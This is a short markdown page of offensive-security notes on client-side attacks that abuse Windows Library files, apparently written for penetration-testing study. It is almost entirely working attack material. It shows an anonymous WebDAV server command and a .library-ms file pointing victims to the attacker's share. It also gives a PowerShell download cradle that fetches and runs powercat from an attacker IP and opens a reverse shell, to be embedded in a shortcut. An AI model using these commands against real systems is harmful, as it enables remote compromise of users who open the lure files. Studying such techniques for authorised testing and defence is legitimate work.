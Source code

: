 # Client Side Attacks

## Abusing Windows Library Files

{% code title="Starting WsgiDAV on port 80" overflow="wrap" lineNumbers="true" %}
```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
{% endcode %}

{% code title="Windows Library code for connecting to our WebDAV Share" overflow="wrap" lineNumbers="true" %}
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>

```
{% endcode %}

{% code title=" PowerShell Download Cradle and PowerCat Reverse Shell Execution" overflow="wrap" lineNumbers="true" %}
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption><p>Creating a shortcut with PS reverse shell</p></figcaption></figure>
